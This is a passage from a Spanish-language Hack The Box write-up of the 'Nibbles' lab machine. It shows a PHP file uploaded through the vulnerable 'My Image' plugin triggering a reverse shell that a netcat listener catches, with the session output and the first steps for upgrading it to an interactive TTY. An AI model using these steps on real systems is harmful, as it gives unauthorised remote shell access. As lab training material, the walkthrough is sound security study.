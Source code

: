 Esto ya que el **plugin My Image** es el que es vulnerable y por lo que entiendo, los archivos que se suban ahí, tendran el nombre de **image.php**.

Vamos a esa ruta:

![](/assets/images/htb-writeup-nibbles/Captura11.png)

* Nuestro archivo se subió como **image.php**, solo dándole click, ya nos conecta en la **netcat**:
```bash
nc -nvlp 443   
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.75] 38648
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 18:05:10 up  3:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ cd /
```
De una vez, vamos a obtener una sesión interactiva, sigue estos pasos:

* Escribe el siguiente comando:
```bash
script /dev/null -c bash
```

* Presiona las teclas **ctrl + z**, debería aparecer el siguiente mensaje y luego la terminal de tu máquina:
```bash
zsh: suspended  nc -nvlp 443
```

